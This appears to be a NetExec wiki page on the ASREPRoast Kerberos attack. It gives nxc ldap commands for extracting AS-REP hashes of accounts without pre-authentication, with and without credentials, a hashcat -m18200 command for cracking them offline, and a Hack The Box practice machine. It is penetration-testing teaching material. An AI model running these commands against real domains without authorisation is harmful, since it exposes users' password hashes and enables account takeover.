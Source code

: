 ```yaml
---
description: >-
  Retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos
  pre-authentication required
---
```


# ASREPRoast

{% hint style="success" %}
You can retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos pre-authentication required if you have a list of users on the domain
{% endhint %}

### Without authentication

> The ASREPRoast attack looks for users without Kerberos pre-authentication required. That means that anyone can send an AS\_REQ request to the KDC on behalf of any of those users, and receive an AS\_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline. More detail in [Kerberos theory](https://www.tarlogic.com/en/blog/how-kerberos-works/).

```
nxc ldap 192.168.0.104 -u harry -p '' --asreproast output.txt
```

Using a wordlist, you can find wordlists of username here

```
nxc ldap 192.168.0.104 -u user.txt -p '' --asreproast output.txt
```

{% hint style="info" %}
Set the password value to '' to perform the test without authentication
{% endhint %}

### With authentication

If you have one valid credential on the domain, you can retrieve all the users and hashs where the Kerberos pre-authentication is not required

```
nxc ldap 192.168.0.104 -u harry -p pass --asreproast output.txt
```

{% hint style="info" %}
Use option **kdcHost** when the domain name resolution fail

```
nxc ldap 192.168.0.104 -u harry -p pass --asreproast output.txt --kdcHost domain_name
```
{% endhint %}

### Cracking with hashcat

To crack hashes on the file output.txt with hashcat use the following options:

```
hashcat -m18200 output.txt wordlist
```

### Example

Forest machine is a good example to test **ASREPRoast** with NetExec

{% embed url="https://www.hackthebox.eu/home/machines/profile/212" %}

### Ressources

{% embed url="https://www.tarlogic.com/en/blog/how-to-attack-kerberos/" %}

{% embed url="https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat" %}

{% embed url="https://en.hackndo.com/kerberos-asrep-roasting/" %}
